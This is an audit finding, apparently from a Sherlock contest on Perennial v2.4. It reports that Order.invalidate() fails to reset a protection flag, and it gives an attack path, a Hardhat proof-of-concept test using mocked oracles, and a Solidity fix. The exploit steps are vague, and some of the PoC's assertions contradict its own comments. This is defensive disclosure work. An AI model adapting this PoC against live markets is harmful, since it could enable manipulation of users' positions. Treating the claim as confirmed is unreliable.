 Glorious White Albatross

Medium

# External attacker can cause the bypass position protection checks after order invalidation, making the order status inconsistent

### Summary

A missing protection flag reset in the Order invalidation logic will cause an inconsistent state issue for market participants as malicious actors can bypass position protection checks after order invalidation.

### Root Cause

In [OrderLib.sol](https://github.com/sherlock-audit/2025-01-perennial-v2-4-update/blob/main/perennial-v2/packages/core/contracts/types/Order.sol#L87-L92) the `invalidate()` function zeroes out positions but fails to reset the protection flag, leading to an inconsistent state where an order can be both invalidated and protected simultaneously.

The relevant code : 
https://github.com/sherlock-audit/2025-01-perennial-v2-4-update/blob/main/perennial-v2/packages/core/contracts/types/Order.sol#L87-L92

### Internal Pre-conditions

1. A user needs to have a protected order (typically through liquidation)

### External Pre-conditions

No

### Attack Path

1. Attacker waits for a protected order to be created (e.g., through liquidation)
2. When the oracle reports an invalid price: The order gets invalidated through `invalidate()` function and `Positions `are zeroed but protection flag remains set
3. The attacker can now bypass certain invariant checks that depend on protection status
4. This allows them to execute operations that should be blocked for protected orders
5. The market contract enters an inconsistent state where protection mechanisms can be circumvented

### Impact

Protected orders can be manipulated in ways that violate the intended market safety mechanisms
Market invariants is violated as well.

### PoC

```ts
describe('#poc', async () => {
  beforeEach(async () => {
    await market.connect(owner).updateParameter(marketParameter)
    dsu.transferFrom.whenCalledWith(user.address, market.address, COLLATERAL.mul(1e12)).returns(true)
    dsu.transferFrom.whenCalledWith(userB.address, market.address, COLLATERAL.mul(1e12)).returns(true)
  })

  it('invalidation vulnerability with protected orders', async () => {
    // 1. Setup maker position
    await market.connect(userB)['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      POSITION,
      0,
      0,
      COLLATERAL,
      false
    )

    // 2. Create a protected order through liquidation
    oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_3.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await settle(market, userB)
    dsu.transfer.whenCalledWith(liquidator.address, EXPECTED_LIQUIDATION_FEE.mul(1e12)).returns(true)
    dsu.balanceOf.whenCalledWith(market.address).returns(COLLATERAL.mul(1e12))

    await market.connect(liquidator)['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      0,
      0,
      0,
      0,
      true // Mark as protected
    )

    // 3. Move to next oracle version with invalid price
    const INVALID_ORACLE_VERSION = {
      ...ORACLE_VERSION_3,
      valid: false
    }
    oracle.at.whenCalledWith(ORACLE_VERSION_3.timestamp).returns([INVALID_ORACLE_VERSION, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([INVALID_ORACLE_VERSION, ORACLE_VERSION_4.timestamp])
    oracle.request.whenCalledWith(userB.address).returns()

    // 4. Process the order - this should invalidate it but protection remains
    await settle(market, userB)

    // 5. Verify the vulnerability
    const order = await market.pendingOrders(userB.address, 2)
    expect(order.maker).to.eq(0) // Position should be zeroed
    expect(order.protection).to.eq(1) // Protection flag should be cleared but isn't

    // 6. This inconsistent state allows bypassing certain invariant checks
    await market.connect(userB)['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      POSITION,
      0,
      0,
      0,
      false
    )

    // The operation succeeds when it should have failed due to protection status
    const finalOrder = await market.pendingOrders(userB.address, 3)
    expect(finalOrder.maker).to.eq(POSITION) // Should not be able to open position while protected
  })
})
```

### Mitigation

Add protection flag reset in the `invalidate()` function:

```solidity
function invalidate(Order memory self, Guarantee memory guarantee) internal pure {
    self.protection = 0; // Reset protection flag
    (self.makerReferral, self.takerReferral) =
        (UFixed6Lib.ZERO, guarantee.orderReferral);
    // ... rest of the function
}
```
